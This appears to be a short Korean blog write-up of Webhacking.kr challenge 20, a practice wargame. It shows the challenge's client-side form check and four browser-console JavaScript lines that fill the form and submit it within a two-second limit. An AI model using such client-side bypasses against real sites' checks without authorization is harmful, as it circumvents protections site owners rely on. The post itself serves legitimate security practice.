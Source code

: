 ```yaml
---
layout: post
title: ! "[Webhacking.kr] 20"
categories: [Webhacking.kr]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - webhacking.kr
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/webhackingkr/20.png)

20번 코드를 보면 time limit:2, code칸의 버튼은 새로고침을 할 때마다 value가 바뀐다.

```js
function ck()
{

if(lv5frm.id.value=="") { lv5frm.id.focus(); return; }
if(lv5frm.cmt.value=="") { lv5frm.cmt.focus(); return; }
if(lv5frm.hack.value=="") { lv5frm.hack.focus(); return; }
if(lv5frm.hack.value!=lv5frm.attackme.value) { lv5frm.hack.focus(); return; }

lv5frm.submit();

}
```

time limit이 2초이므로 2초안에 다 해야된다는 것인데
크롬이나 IE의 콘솔창을 키고 문제 페이지를 새로고침, 2초 안에 아래의 자바스크립트를 실행시키면 된다. 
![]({{ site.baseurl }}/assets/posts/webhackingkr/20_console.png)

```js
javascript:lv5frm.id.value="a";
javascript:lv5frm.cmt.value="a";
javascript:lv5frm.hack.value=lv5frm.attackme.value;
javasript:lv5frm.submit();
```

![]({{ site.baseurl }}/assets/posts/webhackingkr/20_clear.png)




